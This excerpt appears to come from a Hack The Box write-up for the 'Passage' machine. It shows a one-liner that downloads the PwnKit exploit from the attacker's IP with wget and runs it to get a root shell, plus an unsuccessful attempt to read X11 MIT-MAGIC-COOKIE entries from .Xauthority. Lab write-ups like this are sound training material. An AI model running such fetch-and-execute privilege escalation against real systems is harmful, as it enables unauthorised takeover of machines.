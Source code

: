 # Additional
---

## Pwnkit

Some HTB old machine have patched it, but some just don't

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cd /tmp && wget 10.10.14.9/PwnKit -O pk && chmod +x pk && ./pk
--2024-02-07 20:54:16--  http://10.10.14.9/PwnKit
Connecting to 10.10.14.9:80... rm pk
connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'pk'

pk                                                   100%[===================================================================================================================>]  17.62K  --.-KB/s    in 0.09s

2024-02-07 20:54:16 (200 KB/s) - 'pk' saved [18040/18040]

root@passage:/tmp# rm pk
root@passage:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```


## Failed attempts


### Xauthority


#### Screenshot

> https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11

```bash
nadav@passage:~$ strings .Xauthority
ubuntu
MIT-MAGIC-COOKIE-1
 =9o
passage
MIT-MAGIC-COOKIE-1

nadav@passage:~$ w
 20:41:39 up  1:19,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
nadav    tty7     :0               19:22    1:19m  3.94s  0.18s /sbin/upstart --user
nadav    pts/18   10.10.14.9       20:32    0.00s  0.13s  0.00s w
```
